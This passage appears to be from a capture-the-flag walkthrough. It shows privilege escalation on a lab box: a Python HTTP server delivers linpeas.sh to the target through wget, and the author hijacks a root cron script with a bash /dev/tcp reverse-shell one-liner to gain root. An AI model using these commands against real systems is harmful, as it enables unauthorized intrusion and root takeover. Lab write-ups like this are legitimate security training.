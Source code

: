 On my machine...
```
$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
```

On remote machine...
```
boring@kral4-PC:~$ wget myIP:1234/linpeas.sh
```

And made `linpeas.sh` executeable and run it. While analyzing the log generated by linpeas, one specific file bothered me the most - `/var/www/.mysecretcronjob.sh `

This file has permission and this can be run as root so we can use this to get the root flag, by getting a reverse shell on this machine as a root.

```
bash -i >& /dev/tcp/myIP/8080 0>&1
```

After opening a listener in our machine, we run `crontab` in remote machine and we get back a shell which is root. Yay!!

Voila! we get a flag, which was hidden in `.root.txt`!!

Box Pwned!!
